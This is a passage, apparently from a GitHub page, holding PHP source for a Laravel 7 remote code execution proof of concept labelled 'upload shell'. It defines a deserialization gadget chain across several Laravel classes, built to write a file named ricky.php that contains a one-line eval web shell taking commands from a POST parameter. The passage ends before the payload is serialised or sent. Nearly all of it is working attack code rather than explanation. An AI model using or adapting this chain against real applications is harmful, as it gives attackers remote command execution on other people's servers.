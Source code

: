 ```

```

建立 exp.php

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc2
# @author: Ricky
# @ability: upload shell
*/

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events) {
            $this->events = $events;
        }
    }
}
// $this->events->dispatch($this->event);

namespace Illuminate\Notifications
{
    class ChannelManager
    {
        protected $container;
        protected $defaultChannel;
        protected $customCreators;

        function __construct($function, $parameter)
{
            $this->container = $parameter;
            $this->customCreators = ['x' => $function];
            $this->defaultChannel = 'x';
        }
    }
}

namespace Illuminate\Filesystem {
    class Filesystem{
        public $path = 'ricky.php';
        public $data = '<?php eval($_POST[ricky]);?>';
    }
}

namespace Illuminate\Auth {
    class RequestGuard {
        protected $user;
        protected $callback;
        protected $request = 'ricky.php';
        protected $provider = '<?php eval($_POST[ricky]);?>';
        public function __construct($callback) {
            $this->callback = $callback;
        }
    }
}

namespace {

```